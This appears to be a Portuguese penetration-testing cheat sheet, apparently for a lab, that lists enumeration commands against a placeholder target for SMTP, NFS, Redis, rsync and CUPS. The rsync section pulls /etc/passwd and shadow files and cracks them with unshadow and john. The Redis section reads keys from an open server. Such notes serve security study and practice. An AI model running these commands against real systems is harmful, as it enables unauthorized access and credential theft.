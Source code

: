         HELO
        HELO x
        MAIL FROM: thiago
        RCPT TO: usuario-qualquer
        RCPT TO: admin
        quit

        nmap -Pn -v -n -p 25 --script smtp-* IP_DO_ALVO


- NFS

        rpcinfo -p IP_DO_ALVO

        showmount -e IP_DO_ALVO

        mount -t nfs IP_DO_ALVO:/home/thiago /mnt


- REDIS

        redis-cli -h IP_DO_ALVO
        help + tecla tab
        help @set
        help @generic
        SET THIAGAO BONITAO
        GET THIAGAGO
        KEYS *
        GET SEGREDO


- RSYNC

        Foi adicionado aspas nos comandos do RSYNC para informar o inicio e fim do comando, mas não precisa utilizá-la.

     >  "nmap -sV --script "rsync-list-modules" -Pn -v -n -p 873  IP_DO_ALVO"
     >   
         >      "rsync --list-only rsync://IP_DO_ALVO/"
     > 
     >   "rsync --list-only rsync://IP_DO_ALVO/backup"
     > 
     >   "rsync --list-only rsync://IP_DO_ALVO/backup/etc/passwd"
     > 
     >   rsync -chavzP --stats rsync://IP_DO_ALVO/backup/etc/passwd
         rsync -chavzP --stats rsync://IP_DO_ALVO/backup/etc/passwd .
         unshadow passwd shadow > pshadow
         john pshadow
         
         Conecta no ssh com o usuário thiago e não consegue virar root
         Conecta no ssh com o usuário ubuntu e vai conseguir virar root
         
         
         
- CUPS

        nmap -p 631 IP_DO_ALVO -Pn -v --script cups*
        Abrir navegador na porta 631

